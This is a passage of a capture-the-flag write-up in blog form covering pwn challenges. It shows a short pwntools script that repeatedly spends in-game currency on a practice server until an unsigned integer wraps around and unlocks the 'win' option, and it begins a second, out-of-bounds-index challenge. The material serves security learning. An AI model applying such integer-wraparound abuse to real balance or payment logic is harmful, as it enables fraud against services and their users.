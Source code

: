 ```yaml
---
layout: post
title: ForeverCTF Write-ups
---
```


## Pwn

### uint64_t

This was a pretty simply integer overflow. The program prompts us that we have 100000 yen and three choices and continuously prompts us on a loop.
```
Your current balance is: 100 bityen

You may perform the following actions: 
1.   Spend 3 bityen -- show me doge
2.   Spend 100,000 bityen -- win
3.   Earn 1 bityen -- answer a math question

What will you do next?
```

I manually spent down until the bityen count wrapped and entered 2 to win, but doing that would be no fun on the server so I wrote a script to do it for me.
```python
#!/usr/bin/env python3

from pwn import *

r = remote('forever.isss.io', 9018)
yen = 100

for _ in range(34):
    r.recvuntil(b'What will you do next? ')
    r.sendline(b'1')
    yen -= 3
    print(f'You now have {yen} yen')

r.recvuntil(b'What will you do next? ')
r.sendline(b'2')

r.interactive()
```

### Tricky Indices

Another stright forward challenge. The program prompts us for a string and two numbers that serve as indices for out string.
```
Input a string:
asdf
Input a first index:
4
Input a second index:
5
4 5
```
